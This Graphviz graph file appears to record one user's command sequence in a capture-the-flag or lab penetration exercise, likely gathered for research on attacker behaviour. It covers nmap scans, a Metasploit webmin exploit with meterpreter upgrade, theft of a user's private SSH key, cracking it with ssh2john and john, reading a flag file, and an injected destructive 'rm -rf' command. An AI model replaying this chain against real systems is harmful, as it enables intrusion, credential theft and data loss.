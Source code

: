 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 "]
	1 [label="nmap 172.18.1.5 A0 "]
	2 [label="nmap -p- 172.18.1.5 A0 "]
	3 [label="ssh 172.18.1.5 U"]
	4 [label="nmap -A 172.18.1.5 A0 "]
	5 [label="msfconsole U"]
	6 [label="help U"]
	7 [label="search webmin U"]
	8 [label="use 3 U"]
	9 [label="show U"]
	10 [label="show all U"]
	11 [label="show options U"]
	12 [label="set RHOSTS 172.18.1.5 U"]
	13 [label="show options U"]
	14 [label="exploit U"]
	15 [label="ip U"]
	16 [label="ip address U"]
	17 [label="set LHOST 10.1.135.83 U"]
	18 [label="exploit U"]
	19 [label="search shell_to_meterpreter U"]
	20 [label="use 0 U"]
	21 [label="sessions -l U"]
	22 [label="show options U"]
	23 [label="set SESSION 2 U"]
	24 [label="run U"]
	25 [label="sessions 2 U"]
	26 [label="sessions - U"]
	27 [label="sessions 2 U"]
	28 [label="search webmin U"]
	29 [label="use 3 U"]
	30 [label="exploit U"]
	31 [label="ping rm /home/eve/* -rf U"]
	32 [label="logout U"]
	33 [label="ping 10.1.18.22 U"]
	34 [label="ping 10.1.18.22 U"]
	35 [label="exit U"]
	36 [label="show options U"]
	37 [label="ssh 172.18.1.5 U"]
	38 [label="ls ~/.ssh U"]
	39 [label="ssh-keygen U"]
	40 [label="ls U"]
	41 [label="ls ~/.ssh U"]
	42 [label="cd ~/.ssh U"]
	43 [label="ls U"]
	44 [label="cat id_rsa.pub U"]
	45 [label="ssh eve@172.18.1.5 U"]
	46 [label="sessions 5 U"]
	47 [label="ssh eve@10.1.17.4 U"]
	48 [label="ls U"]
	49 [label="ls -la U"]
	50 [label="cd .ssh U"]
	51 [label="ls U"]
	52 [label="cat id_rsa U"]
	53 [label="ls U"]
	54 [label="vim key U"]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa U"]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa U"]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' U"]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key U"]
	59 [label="ls U"]
	60 [label=".ssh2john.py U"]
	61 [label="./ssh2john.py U"]
	62 [label="./ssh2john.py key > crack.txt U"]
	63 [label="cat crack.txt U"]
	64 [label="ls U"]
	65 [label="cd Desktop/ U"]
	66 [label="ls U"]
	67 [label="ls -la U"]
	68 [label="cd .. U"]
	69 [label="ls U"]
	70 [label="john crack.txt U"]
	71 [label="cd /usr/share U"]
	72 [label="ls U"]
	73 [label="cd wordlists/ U"]
	74 [label="ls U"]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt U"]
	76 [label="ssh eve@10.1.17.4 U"]
	77 [label="exit U"]
	78 [label="ls U"]
	79 [label="cd top-secret/ U"]
	80 [label="ls U"]
	81 [label="cat flag.txt A8 M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
